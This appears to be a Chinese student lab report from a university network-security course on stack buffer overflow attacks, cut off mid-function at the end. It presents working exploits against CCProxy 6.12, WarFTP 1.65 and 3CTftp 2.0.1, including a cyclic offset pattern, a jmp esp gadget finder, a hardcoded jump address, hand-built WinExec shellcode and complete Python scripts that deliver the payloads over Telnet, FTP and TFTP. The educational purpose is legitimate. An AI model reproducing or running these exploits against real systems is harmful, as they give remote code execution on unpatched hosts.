









### 缓冲区溢出攻击实验

中国科学院大学 网络攻防基础

### 思路概况

三个实验的思路很相似，使用jmp esp做跳板攻击，查找到jmp esp的地址，首先生成一个超长字符串，输入软件，使用cdb attach到进程，查看崩溃的时候eip的值和esp的值，定位偏移，布局shellcode，其中ccproxy往前跳，wardftp往后跳，3ctftp使用二段跳。

超长字符串在这里，三个实验都使用此字符串。

```python
# 超长字符串
long_str = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6"
```

### jmp esp地址查找

jmp esp低地址可以在很多dll中都有，以user32.dll为例子，或使用`0x7ffa4512`xp万能地址，查找代码如下

```c
#include <stdio.h>
#include <windows.h>
#define DLL_NAME "user32.dll"

void find_ins(){
    HINSTANCE hDllHandle = LoadLibrary(DLL_NAME);
    if (!hDllHandle) exit(0);
    BYTE *ptr;
    ptr = (BYTE*)hDllHandle;
    BOOL flag = false;
    for (int i = 0; !flag; i++)
    {
        if (ptr[i] == 0xFF && ptr[i + 1] == 0xE4)
        {
            int address = (int)ptr + i;
            printf("opcode address:0x%x\n", address);
			count++;
        }
    }
}

int main()
{
	find_ins();
	return 0; 
}

```

查找结果如图



有非常多的地址，随便选一个就行，后续实验使用0x7ffa4512统一。

### 1. CCProxy6.12 ping溢出攻击

#### 1.1分析过程

首先使用`cdb -pn ccproxy.exe`挂起进程，使用g参数继续执行，之后用python构建socket发送超长字符串。



```python
import socket

long_str = "..."
cc_ip = "192.168.164.131"
cc_port = 23
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((cc_ip, cc_port))
    print("连接成功")
except:
    print("连接失败")

def send_long_str():
    s.send(("ping " + long_str + "\n\r").encode())

if __name__ == '__main__':

    send_long_str()
```

执行攻击查看cdb



查看得到`eip=0x6a42376a jB7j `, `esp=0x61413161 aA1a`，由于小端序，需要反转一下，`eip=j7Bj,esp=a1Aa`，定位偏移。

```python
long_str.index("j7Bj"), long_str.index("a1Aa") # 1012 4
```

所以，溢出点发生在1012，此时esp指向4的偏移，故shellcode构造思路为

```python
nop *4 + [shellcode] + nop*(1012 - (4 + len(shellcode))) + addr(jmp esp) + nop*100
```

jmp esp之后的填充可有可无，写成整个命令格式如下。

```python
"ping " + nop *4 + [shellcode] + nop*(1012 - (4 + len(shellcode))) + addr(jmp esp) + nop*100 + "\n\r"
```

#### 1.2payload构造攻击

有了上述思路，我们来准备代码，首先查看一下shellcode的构造过程，可以写一段程序在vc中反编译查看机器码获取shellcode。

```c
#include <stdio.h>
#include <windows.h>

#define DLL_NAME "user32.dll"

__declspec(naked) void naked_pop_calc() {
    __asm {
		xor eax, eax
		push eax               ; null terminator
		push 0x636c6163        ; "calc"
		mov ebx, esp
		push ebx               ; lpCmdLine
		mov eax, 0x7c8623ad
		call eax       ; WinExec
		add esp, 8

		xor ebx,ebx
		push ebx
		mov eax, 0x7c81cafa
		call eax
    }
}

int main()
{
    HINSTANCE hDllHandle = LoadLibrary(DLL_NAME);
 	printf("winExec address: %p\n", WinExec); // 0x7c8623ad
    naked_pop_calc();
}

```




通过上面的代码可以获取这段弹出计算器的机器码，之后写一段python使用socket发送给ccproxy，这段代码添加了一个`0x7c81cafa`调用，为退出程序，不弹出报错窗口。

```python
import socket

long_str = "..."
cc_ip = "192.168.164.131"
cc_port = 23
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((cc_ip, cc_port))
    print("连接成功")
except:
    print("连接失败")

def send_long_str():
    s.send(("ping " + long_str + "\n\r").encode())


if __name__ == '__main__':
    print(long_str.index("j7Bj"), long_str.index("a1Aa"))
    # send_long_str()

    calc_system_shell = (
        b"\x33\xc0"                  # xor eax,eax
        b"\x50"                      # push eax
        b"\x68\x63\x61\x6C\x63"      # push 0x636c6163 ("calc")
        b"\x8B\xDC"                  # mov ebx, esp
        b"\x53"                      # push ebx
        b"\xB8\xAD\x23\x86\x7C"      # mov eax  (WinExec)
        b"\xFF\xD0"                  # call eax
    
        b"\x33\xDB"                  # xor ebx, ebx
        b"\x53"                      # push ebx
        b"\xB8\xFA\xCA\x81\x7C"      # mov eax, 0x7c81cafa (ExitProcess)
        b"\xFF\xD0"                  # call eax
    )

    jmp_esp = b"\x12\x45\xfa\x7f"

    payload = "ping ".encode() + b"\x90"*4 + calc_system_shell + b"\x90" * (1012 - len(calc_system_shell) - 4) + jmp_esp + b"\x90" * 100 + "\r\n".encode()

    s.recv(1024)
    s.send(payload)
    s.close()
```

执行这段代码，成功弹出计算器。




### 2. wardftp1.65 user溢出攻击

#### 3.1分析过程

直接发送相同的字符串，查看溢出点。



```python
eip=0x32714131 # 486 2qA1 
esp=0x71413471 # 494 qA4q 
```

故shellcode布局如下

```python
nop*485 + [jmp esp]4 + [nop]*5 + [shellcode]
```

#### 3.2payload构造攻击

有了思路，开始写代码，shellcode沿用上面的弹出计算器

```python
from ftplib import FTP

if __name__ == '__main__':
    calc_shell_code = (
        b"\x33\xC0"
        b"\x50"
        b"\x68\x63\x61\x6C\x63"
        b"\x8B\xDC"
        b"\x53"  # push ebx
        b"\xB8\xAD\x23\x86\x7C"
        b"\xFF\xD0"
        b"\x83\xC4\x08"  # add esp, 8
        b"\x33\xDB"
        b"\x53"
        b"\xB8\xFA\xCA\x81\x7C"
        b"\xFF\xD0"
    )
    username = "..."
    ftp = FTP('192.168.164.131')
    # ftp.login(username[:601], "password")
    # eip=0x32714131 486 2qA1 esp=0x71413471 494 qA4q
    # 布局: [padding]*485 + [jmp esp]4 + [nop]*5 + [shellcode]
    payload = b"A"*485+b"\x12\x45\xfa\x7f"+b"\x90"*4+calc_shell_code
    # ftp.login(payload.decode('latin-1'), "password")
    ftp.sock.sendall(b"USER " + payload + b"\r\n")
```

关键要使用`ftp.sock.sendall`或者自己用socket写ftp协议，如果使用`ftp.login`会不成功，执行代码，成功弹出计算器。




### 3. 3ctftp2.0.1 mode溢出攻击

#### 3.1分析过程

这个有一些难度，溢出点大概在469左右，jmp esp会跳到后面，不知道为什么payload超过500左右会导致不成功，所以jmp esp的位置没有足够的空间放置shellcode，因此需要在jmp esp的位置放置指令往前二段跳，sub esp,0x60, jmp esp，之后跳到nop的位置，滑到shellcode。分析思路如下。

这里还有一个问题，需要自己用socket写一下tftp协议，查阅资料可知，协议格式如下。

```tex
| Opcode (2 bytes) | Filename (String) | 0 (Byte) | Mode (String) | 0 (Byte) |
```

- **Opcode:** 操作码（1 代表读，2 代表写）。
- **Filename:** 文件名。
- **Mode:** 传输模式（通常是 `netascii` 或 `octet`）。

**问题出在 `Mode` 字段上。**

当 3CTftpSvc 接收到这个数据包时，它会在内存（栈）中开辟一段固定大小的空间来存放这个 `Mode` 字符串。**没有验证 `Mode` 字符串的长度**，直接使用了类似 `strcpy` 的函数将其复制到栈缓冲区中。

首先发送超长字符串

```python
import socket
import time
long_str = "..."

TARGET_IP = "192.168.164.131"
SERVER_PORT = 69

def send_udp_large(sock, data, addr, port, chunk_size=500):
    for i in range(0, len(data), chunk_size):
        print(i)
        sock.sendto(data[i:i + chunk_size],(addr,port))
        
def send_long_str():
    op = b"\x00\x02"
    filename = f"{time.time().__str__()[-1]}".encode()
    filename_end = b"\x00"
    mode = "netascii".encode() + long_str[:500].encode()
    mode_end = b"\x00"
    header = op + filename + filename_end + mode + mode_end
    # 创建 UDP Socket
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    client_socket.settimeout(5)  # 设置超时时间
    send_udp_large(client_socket, header, TARGET_IP, SERVER_PORT, chunk_size=600)
```




```python
eip=0x41357041 A5pA Ap5A 466 
esp=41397041 A9pA Ap9A 478 
```

根据前面的分析，shellcode布局如下

```python
高地址<- 0x90...shellcode...0x90..jmp_esp..0x90..second_jmp -> 低地址
```

#### 3.2payload构造攻击

有了前面的分析，我们来写代码

```python
import socket
import struct
import sys
import os
import time

long_str = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6"
TARGET_IP = "192.168.164.131"
SERVER_PORT = 69

def send_udp_large(sock, data, addr, port, chunk_size=500):
    for i in range(0, len(data), chunk_size):
        print(i)
        sock.sendto(data[i:i + chunk_size],(addr,port))

def send_long_str():
    op = b"\x00\x02"
    filename = f"{time.time().__str__()[-1]}".encode()
    filename_end = b"\x00"
    mode = "netascii".encode() + long_str[:500].encode()
    mode_end = b"\x00"
    header = op + filename + filename_end + mode + mode_end
    # 创建 UDP Socket
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    client_socket.settimeout(5)  # 设置超时时间
    send_udp_large(client_socket, header, TARGET_IP, SERVER_PORT, chunk_size=600)

def make_payload():
    op = b"\x00\x02"
    # eip=0x41357041 A5pA Ap5A 466 esp=41397041 A9pA Ap9A 478 70-77
    print(long_str.index("Ap5A"), long_str.index("Ap9A"))
    # exit(0)
    filename = f"{time.time().__str__()[-1]}".encode()
    filename_end = b"\x00"
    shellcode = (
        b"\x33\xC0"
        b"\x50"
        b"\x68\x63\x61\x6C\x63"
        b"\x8B\xDC"
        b"\x53"  # push ebx
        b"\xB8\xAD\x23\x86\x7C"
        b"\xFF\xD0"
    )
    prefix_padding = 400
    # 高地址<- 0x90...shellcode...0x90..jmp_esp..0x90..second_jmp -> 低地址
    # payload = b"\x90" * prefix_padding + shellcode + b"\x90"*(465-len(shellcode) - prefix_padding) + b"\x12\x45\xfa\x7f" + b"\x90"*8 + second_jmp
    payload = b"\x90" * prefix_padding + shellcode + b"\x90"*(465-len(shellcode) - prefix_padding) + b"\x12\x45\xfa\x7f" + b"\x90"*8 + shellcode
    print("payload len:",len(payload))
    mode = "netascii".encode() + payload
    mode_end = b"\x00"

    header = op + filename + filename_end + mode + mode_end

    print("data len:",len(header))

    # 创建 UDP Socket
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    client_socket.settimeout(5)  # 设置超时时间

    send_udp_large(client_socket, header, TARGET_IP, SERVER_PORT, chunk_size=600)
    # client_socket.sendto(header, (TARGET_IP, SERVER_PORT))

    print(f"已发送: {header}")

def make_long_payload():
    op = b"\x00\x02"
